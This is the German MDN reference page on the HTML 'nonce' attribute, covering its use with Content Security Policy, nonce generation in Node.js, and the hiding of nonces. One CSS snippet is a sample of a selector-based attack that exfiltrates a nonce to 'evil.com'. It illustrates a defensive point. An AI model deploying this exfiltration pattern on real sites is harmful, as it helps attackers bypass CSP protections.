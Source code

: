 ```yaml
---
title: nonce
slug: Web/HTML/Reference/Global_attributes/nonce
l10n:
  sourceCommit: e9b6cd1b7fa8612257b72b2a85a96dd7d45c0200
---
```


{{HTMLSidebar("Global_attributes")}}

Das **`nonce`** [globale Attribut](/de/docs/Web/HTML/Reference/Global_attributes)
ist ein Inhaltsattribut, das eine kryptografische Nonce ("number used once") definiert, die von der
[Content Security Policy](/de/docs/Web/HTTP/Guides/CSP) verwendet werden kann, um zu bestimmen, ob ein bestimmter Abruf
für ein bestimmtes Element fortgesetzt werden darf.

## Beschreibung

Das `nonce`-Attribut ist nützlich, um bestimmte Elemente, wie z.B. bestimmte Inline-Skript- oder Stilelemente, auf die Positivliste zu setzen.
Es kann Ihnen helfen, die Verwendung der [CSP](/de/docs/Web/HTTP/Guides/CSP) `unsafe-inline` Direktive zu vermeiden, die _alle_ Inline-Skripte oder -Stile auf die Positivliste setzen würde.

> [!NOTE]
> Verwenden Sie `nonce` nur in Fällen, in denen Sie keine andere Möglichkeit haben, unsichere Inline-Skript- oder Stilinhalte zu verwenden. Wenn Sie `nonce` nicht benötigen, verwenden Sie es nicht. Wenn Ihr Skript statisch ist, könnten Sie stattdessen einen CSP-Hash verwenden.
> (Siehe Nutzungshinweise zu [unsafe inline script](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Versuchen Sie immer, den vollen Vorteil der [CSP](/de/docs/Web/HTTP/Guides/CSP) Schutzmaßnahmen zu nutzen und vermeiden Sie Nonces oder unsichere Inline-Skripte wann immer möglich.

### Verwenden von nonce, um ein \<script>-Element auf die Positivliste zu setzen

Es gibt einige Schritte, die erforderlich sind, um ein Inline-Skript mit dem Nonce-Mechanismus auf die Positivliste zu setzen:

#### Generierung von Werten

Generieren Sie von Ihrem Webserver aus einen zufällig Base64-codierten String von mindestens 128 Bit Daten aus einem kryptografisch sicheren
Zufallszahlengenerator. Nonces sollten bei jedem Laden der Seite unterschiedlich generiert werden (Nonce nur einmal!). Zum Beispiel in nodejs:

```js
const crypto = require("crypto");
crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Positivliste für Inline-Skript

Die auf Ihrem Backend-Code generierte Nonce sollte nun für das Inline-Skript verwendet werden, das Sie auf die Positivliste setzen möchten:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Senden einer Nonce mit einem CSP-Header

Schließlich müssen Sie den Nonce-Wert in einem
[`Content-Security-Policy`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy)-Header senden
(vorangestellt mit `nonce-`):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Zugriff auf Nonces und Verbergen von Nonces

Aus Sicherheitsgründen wird das `nonce` Inhaltsattribut verborgen (ein leerer String wird zurückgegeben).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

Die [`nonce`](/de/docs/Web/API/HTMLElement/nonce) Eigenschaft ist der einzige Weg, um auf Nonces zuzugreifen:

```js example-good
script.nonce; // returns nonce value
```

Das Verbergen von Nonces hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen zu exfiltrieren, die Daten
aus Inhaltsattributen wie diesem erfassen können:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: [`script-src`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src)
